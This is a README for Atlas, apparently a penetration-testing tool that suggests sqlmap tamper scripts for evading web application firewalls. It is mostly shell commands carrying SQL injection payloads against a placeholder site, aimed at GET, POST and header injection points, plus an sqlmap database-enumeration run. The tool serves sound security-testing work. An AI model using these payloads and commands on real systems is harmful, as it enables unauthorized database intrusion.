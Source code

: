 Atlas - Quick SQLMap Tamper Suggester v1.0
---

__Atlas__ is an open source tool that can suggest sqlmap tampers to bypass WAF/IDS/IPS, the tool is based on returned status code.

![atlas_main](https://i.imgur.com/G2bXF3A.png)


Screen
---
![atlas_run](https://i.imgur.com/I6cXSKd.png)

Installation
---
```
$ git clone https://github.com/m4ll0k/Atlas.git atlas
$ cd atlas
$ python atlas.py # python3+
```

Usage
---
```
$ python atlas.py --url http://site.com/index.php?id=Price_ASC --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

injection point (with `%%inject%%`):

get:
```
$ python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

post:
```
$ python atlas.py --url http://site.com/index/id/ -m POST -D 'test=%%10%%' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

headers:
```
$ python atlas.py --url http://site.com/index/id/ -H 'User-Agent: mozilla/5.0%%inject%%' -H 'X-header: test' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```


tampers concatenation:

```
$ python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --concat "equaltolike,htmlencode" --random-agent -v
```

get tampers list:

```
$ python atlas.py -g
```


Example 
---
1. Run SQLMap:
```
$ python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3
```
![sqlmap](https://i.imgur.com/XP39Rqz.png)

```Price_ASC') AND 8716=4837 AND ('yajr'='yajr``` is blocked by WAF/IDS/IPS, now trying with Atlas:
```
$ python atlas.py --url 'http://site.com/index.php?id=Price_ASC' --payload="') AND 8716=4837 AND ('yajr'='yajr" --random-agent -v
```
![atlas_succ](https://i.imgur.com/U6qEnXp.png)

At this point:

```
$ python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3 --tamper=versionedkeywords,...
```
